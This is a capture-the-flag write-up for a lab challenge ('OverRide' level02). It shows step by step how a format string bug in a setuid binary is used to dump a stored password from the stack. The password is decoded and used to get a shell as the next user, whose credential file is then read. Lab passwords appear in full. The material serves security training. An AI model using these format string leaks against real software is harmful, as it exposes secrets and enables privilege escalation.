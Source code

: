 Log into level02
```shell
┌──$ [~/42/2022/override]
└─>  ssh -p 4242 192.168.56.101 -l level02
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level02@192.168.56.101's password: PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
```
The binary file located in home directory of `level02` is an 64-bit executable.
```shell
level02@OverRide:~$ ls -l
total 12
-rwsr-s---+ 1 level03 users 9452 Sep 10  2016 level02
level02@OverRide:~$ file level02
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```
It contains only one user defined function `main()`

Executable open a `.pass` file of `level03` and read 41 bytes of data from the stream pointed to by the `fd`, storing them at the location given by first pointer to `buff`.
It replace last character `\n` with `\0` and check that letght of buffer is equal to 41.
Then, it invite user to input username and password. So it reads in at most one less than 100 characters from `stdin` and stores them into the buffer pointed to by `username` and `password`. Once input is entered it replace `\n` with `\0`.
Finally, it compares user's password to password read from the file. If it match, it open a new process runnign a shell.
In case if password do not match, it ouputs username and message that it _does not have access!_.
Here `printf()` is ussed is such way that input string is evaluated as a command by the application, which is know as (Format string attack)[https://owasp.org/www-community/attacks/Format_string_attack]. As the password still in the memory, it can be retrieved by passing to `printf()` a conversion specifier `%x`.

As password is stored in the buffer and FSA can be performed, read the stack using long conversion specifier `%lx`.
```shell
level02@OverRide:~$ for i in {0..26}; do python -c "print('%$i\$16lx')" | ./level02 | grep -oE '[a-f0-9]{16}' | tr '\n' ' '; done; echo
2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a 756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d 
```
Convert hexadecimal value to ASCII within Python
```python
level02@OverRide:~$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41)
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> print(bytearray.fromhex("2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a 756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d"))
****************unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
```
The password is incorrect.
```shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: level03
--[ Password: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
*****************************************
level03 does not have access!
level02@OverRide:~$
level02@OverRide:~$ su level03
Password: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
su: Authentication failure
```
The system and the binary are in Little endian configuration.
```shell
level02@OverRide:~$ lscpu | grep 'Byte Order'
Byte Order:            Little Endian
level02@OverRide:~$ readelf -h ./level02 | grep Data
  Data:                              2's complement, little endian
```
So the order of bytes need to be adjust.
```python
level02@OverRide:~$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41)
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> print(bytearray.fromhex("4868373452506e75 51397361354a4145 58674e5743717a37 7358476e68354a35 4d394b6650673348"))
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
```shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: level03
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, level03!
$ id
uid=1002(level02) gid=1002(level02) euid=1003(level03) egid=100(users) groups=1003(level03),100(users),1002(level02)
$ cat /home/users/$(whoami)/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
